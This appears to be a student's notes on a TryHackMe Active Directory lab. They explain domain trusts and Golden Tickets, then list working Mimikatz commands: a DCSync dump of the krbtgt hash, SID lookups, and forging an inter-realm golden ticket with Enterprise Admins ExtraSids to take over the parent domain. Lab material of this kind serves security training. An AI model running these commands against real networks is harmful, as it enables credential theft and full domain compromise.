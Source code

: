 
Domain Trusts

There are two main types of trusts that can be configured between domains:

-   Directional - The direction of the trust flows from a trusting domain to a trusted domain
-   Transitive - The trust relationship expands beyond just two domains to include other trusted domains

It is common to have a root or parent domain in a forest. In our case, this is TRYHACKME.LOC. For each regional office, sub or child domains are created, such as ZA.TRYHACKME.LOC or UK.TRYHACKME.LOC. This forest configuration will allow the sharing of resources between the ZA and the UK office. For example, if some user in the UK office requires access to THMSERVER1, we can grant access for the user in the ZA domain. This permission delegation works since there is bidirectional trust between ZA and the root domain and the UK and the root domain, essentially creating a transitive trust between ZA and UK.  

As mentioned above, the trust between a parent and child domain is bidirectional. This is intended behaviour and is used to share resources through greater transitive trust relationships. However, as an attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.


KRBTGT and Golden Tickets

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain. Since the password hash is shared by all domain controllers, they can then verify the authenticity of the received TGT when users request access to resources.

However, what if we want to generate our own TGTs to grant us access to everything? This is known as a Golden Ticket attack. In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

-   The FQDN of the domain
-   The Security Identifier (SID) of the domain
-   The username of the account we want to impersonate
-   The KRBTGT password hash

Account of the KRBTGT ---> ==krbtgt==

The first three are usually easy to recover. The last one requires a domain compromise since the KRBTGT password hash is only stored on domain controllers. Luckily for us, we have just compromised the Tier 0 admins group with a forged certificate, so we are in a position to recover the KRBTGT password hash.

We will again use Mimikatz with a DC Sync to recover the KRBTGT password hash on THMSERVER2:

```
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsadump::dcsync /user:za\krbtgt
```

## Inter-Realm TGTs
Inter-realm TGT is a special ticket that allows a user to authenticate to and access resources in a different AD domain within the same tree.

Using the KRBTGT password hash, we could now forge a Golden Ticket to access any resource in the child domain. Inter-Realm TGTs are used to provide access to resources in other domains. In our case, we want to exploit the bidirectional trust relationship between the child and parent domain to gain full access to the parent domain.

We will include extra account SIDs from other domains when we construct the Golden Ticket to perform this exploit. Mimikatz can assist with this, allowing us to set the ExtraSids section of the KERB_VALIDATION_INFO structure of the Kerberos TGT. The ExtraSids section is described as “A pointer to a list of KERB_SID_AND_ATTRIBUTES structures that contain a list of SIDs corresponding to groups in domains other than the account domain to which the principal belongs”.

The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of the Enterprise Admins (EA) group as an extra SID to our forged ticket for the domain controller of the child domain. The EA group belongs to the parent domain and membership to this group essentially grants Administrative privileges over the entire forest! The default SID for this group is `S-1-5-21-<RootDomain>-519`.

Before we can go into exploitation, we first need to recover two SIDs:

-   The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT  
-   The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT

To recover these SIDs, we can use the AD-RSAT Powershell cmdlets. We can recover the SID of the child domain controller using the following command
```
PS C:\> Get-ADComputer -Identity "THMDC"
```

We can recover the SID of the Enterprise Admins group using the following command to query the parent domain controller
```
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
```

## Exploiting Domain Trusts
We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket.

```
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

mimikatz # privilege::debug
mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
```

First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain
```
C:\>dir \\thmdc.za.tryhackme.loc\c$
```

This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC
```
C:\>dir \\thmrootdc.tryhackme.loc\c$\
```